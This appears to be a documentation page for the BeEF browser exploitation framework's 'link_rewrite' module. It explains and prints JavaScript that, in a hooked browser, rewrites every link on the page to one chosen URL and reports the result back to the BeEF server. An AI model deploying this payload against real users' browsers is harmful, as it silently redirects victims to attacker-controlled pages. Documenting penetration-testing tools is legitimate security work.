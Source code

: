 ## Summary

* **Objective**: Rewrite all links to one URL
* **Authors**: passbe
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/link_rewrite)

## Internal Working

simple replaces all href elements in `<a>` tags

```js

beef.execute(function() {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinks('<%= @url %>')+' links rewritten to <%= @url %>');
});


//rewriteLinks function

rewriteLinks: function(url, selector) {
        var sel = (selector == null) ? 'a' : selector;
        return $j(sel).each(function() {
                if ($j(this).attr('href') != null)
                {
                        $j(this).attr('href', url).click(function() { return true; });
                }
        }).length;
},

```

## Feedback
